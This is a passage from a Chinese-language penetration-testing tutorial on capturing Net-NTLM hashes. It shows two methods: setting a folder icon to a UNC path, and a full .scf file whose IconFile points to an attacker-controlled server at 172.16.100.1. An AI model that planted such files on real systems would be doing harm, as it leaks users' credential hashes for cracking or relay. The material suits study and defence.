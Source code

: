 将图标路径改成UNC路径，指向我们的服务器

![image-20191120160121209](img/NTLM_RELAY_1_ANQUANKE/image-20191120160121209.png)

![image-20191120160255783](img/NTLM_RELAY_1_ANQUANKE/image-20191120160255783.png)

当用户访问该文件夹的时候会去访问UNC路径,我们就能获取用户的net-ntlm  hash。

![image-20191120160851586](img/NTLM_RELAY_1_ANQUANKE/image-20191120160851586.png)

### 2. scf 文件

只要一个文件底下含有scf后缀的文件,由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标。而IconFile是支持UNC路径的。以下是scf后缀的文件的格式

```
[Shell]
Command=2
IconFile=\\172.16.100.1\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

新建test.scf，写入内容，放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的net-ntlm hash。

![image-20191120162237325](img/NTLM_RELAY_1_ANQUANKE/image-20191120162237325.png)
